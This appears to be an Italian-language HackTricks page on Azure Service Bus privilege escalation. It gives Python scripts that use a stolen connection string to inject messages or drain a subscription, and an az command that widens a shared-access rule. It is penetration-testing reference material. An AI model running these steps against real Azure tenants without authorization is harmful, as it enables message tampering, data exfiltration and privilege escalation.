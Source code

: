 # Az - Service Bus Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Service Bus

Per ulteriori informazioni controlla:

{% content-ref url="../az-services/az-servicebus-enum.md" %}
[az-servicebus-enum.md](../az-services/az-servicebus-enum.md)
{% endcontent-ref %}


### Invia Messaggi. Azione: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` O `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`

Puoi recuperare il `PrimaryConnectionString`, che funge da credenziale per lo spazio dei nomi del Service Bus. Con questa stringa di connessione, puoi autenticarti completamente come spazio dei nomi del Service Bus, permettendoti di inviare messaggi a qualsiasi coda o argomento e potenzialmente interagire con il sistema in modi che potrebbero interrompere le operazioni, impersonare utenti validi o iniettare dati dannosi nel flusso di messaggistica.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient
from azure.servicebus import ServiceBusMessage

# Constants
NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"

# Function to send a single message to a Service Bus topic
async def send_individual_message(publisher):
# Prepare a single message with updated content
single_message = ServiceBusMessage("Hacktricks-Training: Single Item")
# Send the message to the topic
await publisher.send_messages(single_message)
print("Sent a single message containing 'Hacktricks-Training'")

# Function to send multiple messages to a Service Bus topic
async def send_multiple_messages(publisher):
# Generate a collection of messages with updated content
message_list = [ServiceBusMessage(f"Hacktricks-Training: Item {i+1} in list") for i in range(5)]
# Send the entire collection of messages to the topic
await publisher.send_messages(message_list)
print("Sent a list of 5 messages containing 'Hacktricks-Training'")

# Function to send a grouped batch of messages to a Service Bus topic
async def send_grouped_messages(publisher):
# Send a grouped batch of messages with updated content
async with publisher:
grouped_message_batch = await publisher.create_message_batch()
for i in range(10):
try:
# Append a message to the batch with updated content
grouped_message_batch.add_message(ServiceBusMessage(f"Hacktricks-Training: Item {i+1}"))
except ValueError:
# If batch reaches its size limit, handle by creating another batch
break
# Dispatch the batch of messages to the topic
await publisher.send_messages(grouped_message_batch)
print("Sent a batch of 10 messages containing 'Hacktricks-Training'")

# Main function to execute all tasks
async def execute():
# Instantiate the Service Bus client with the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as sb_client:
# Create a topic sender for dispatching messages to the topic
publisher = sb_client.get_topic_sender(topic_name=TOPIC_NAME)
async with publisher:
# Send a single message
await send_individual_message(publisher)
# Send multiple messages
await send_multiple_messages(publisher)
# Send a batch of messages
await send_grouped_messages(publisher)

# Run the asynchronous execution
asyncio.run(execute())
print("Messages Sent")
print("----------------------------")

```
{% endcode %}

### Ricevere Messaggi. Azione: `Microsoft.ServiceBus/namespaces/authorizationRules/listkeys/action` O `Microsoft.ServiceBus/namespaces/authorizationRules/regenerateKeys/action`
Puoi recuperare il PrimaryConnectionString, che funge da credenziale per il namespace del Service Bus. Utilizzando questa stringa di connessione, puoi ricevere messaggi da qualsiasi coda o sottoscrizione all'interno del namespace, consentendo l'accesso a dati potenzialmente sensibili o critici, abilitando l'exfiltrazione dei dati o interferendo con l'elaborazione dei messaggi e i flussi di lavoro delle applicazioni.

{% code overflow="wrap" %}
```python
#You need to install the following libraries
#pip install azure-servicebus
#pip install aiohttp
#pip install azure-identity

import asyncio
from azure.servicebus.aio import ServiceBusClient

NAMESPACE_CONNECTION_STR = "<PrimaryConnectionString>"
TOPIC_NAME = "<TOPIC_NAME>"
SUBSCRIPTION_NAME = "<TOPIC_SUBSCRIPTION_NAME>" #Topic Subscription

# Function to receive and process messages from a Service Bus subscription
async def receive_and_process_messages():
# Create a Service Bus client using the connection string
async with ServiceBusClient.from_connection_string(
conn_str=NAMESPACE_CONNECTION_STR,
logging_enable=True) as servicebus_client:

# Get the Subscription Receiver object for the specified topic and subscription
receiver = servicebus_client.get_subscription_receiver(
topic_name=TOPIC_NAME,
subscription_name=SUBSCRIPTION_NAME,
max_wait_time=5
)

async with receiver:
# Receive messages with a defined maximum wait time and count
received_msgs = await receiver.receive_messages(
max_wait_time=5,
max_message_count=20
)
for msg in received_msgs:
print("Received: " + str(msg))
# Complete the message to remove it from the subscription
await receiver.complete_message(msg)

# Run the asynchronous message processing function
asyncio.run(receive_and_process_messages())
print("Message Receiving Completed")
print("----------------------------")
```
### `Microsoft.ServiceBus/namespaces/authorizationRules/write` & `Microsoft.ServiceBus/namespaces/authorizationRules/write`
Se hai questi permessi, puoi elevare i privilegi leggendo o creando chiavi di accesso condiviso. Queste chiavi consentono il pieno controllo sul namespace di Service Bus, inclusa la gestione di code, argomenti e l'invio/ricezione di messaggi, potenzialmente eludendo i controlli di accesso basati sui ruoli (RBAC).
```bash
az servicebus namespace authorization-rule update \
--resource-group <MyResourceGroup> \
--namespace-name <MyNamespace> \
--name RootManageSharedAccessKey \
--rights Manage Listen Send
```
## Riferimenti

* https://learn.microsoft.com/it-it/azure/storage/queues/storage-powershell-how-to-use-queues
* https://learn.microsoft.com/it-it/rest/api/storageservices/queue-service-rest-api
* https://learn.microsoft.com/it-it/azure/storage/queues/queues-auth-abac-attributes
* https://learn.microsoft.com/it-it/azure/service-bus-messaging/service-bus-python-how-to-use-topics-subscriptions?tabs=passwordless
* https://learn.microsoft.com/it-it/azure/role-based-access-control/permissions/integration#microsoftservicebus

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos github.
</details>
{% endhint %}
